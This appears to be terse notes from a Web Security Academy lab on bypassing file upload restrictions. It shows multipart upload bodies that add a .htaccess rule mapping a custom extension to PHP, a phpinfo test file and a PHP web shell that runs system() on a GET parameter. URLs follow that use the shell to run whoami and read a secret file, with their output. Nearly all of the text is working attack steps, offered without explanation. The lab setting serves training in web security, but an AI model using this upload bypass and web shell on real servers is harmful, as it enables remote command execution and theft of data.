

-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

